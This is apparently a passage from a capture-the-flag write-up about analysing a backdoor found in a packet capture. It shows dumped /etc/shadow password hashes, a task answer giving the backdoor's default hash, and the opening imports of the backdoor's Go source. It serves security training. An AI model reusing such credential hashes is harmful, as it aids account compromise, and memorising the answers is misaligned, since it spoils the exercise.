 paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::</code></pre>

<br>

![image](https://github.com/user-attachments/assets/49a38468-7ae4-42f1-867e-996397621099)


<br>


<p>I downloaded the pcap file.</p>

<br>

<p>Opened pcap file in Wireshark.</p>

<br>

![image](https://github.com/user-attachments/assets/7e41c93c-b32e-4d34-a8b9-a1a29bff38dc)

<br>

![image](https://github.com/user-attachments/assets/1d88c764-62ec-4386-bf78-dd48d99378e0)


<br>
<h2>Task 2. Research - Analyse the code</h2>

<p>Now that you've found the code for the backdoor, it's time to analyse it.</p>

<br>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

<br>

> 2.1. <em>What's the default hash for the backdoor?</em><br><a id='2.1'></a>
>> <code><strong>bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3</strong></code>


<br>

![image](https://github.com/user-attachments/assets/a9ec3588-6c2b-4116-bec3-7eb2fc97a45f)

<br>

<pre><code>└─$ cat main.go         
package main

import (
        "crypto/sha512"
        "fmt"
        "io"
        "io/ioutil"
        "log"
        "net"
        "os/exec"
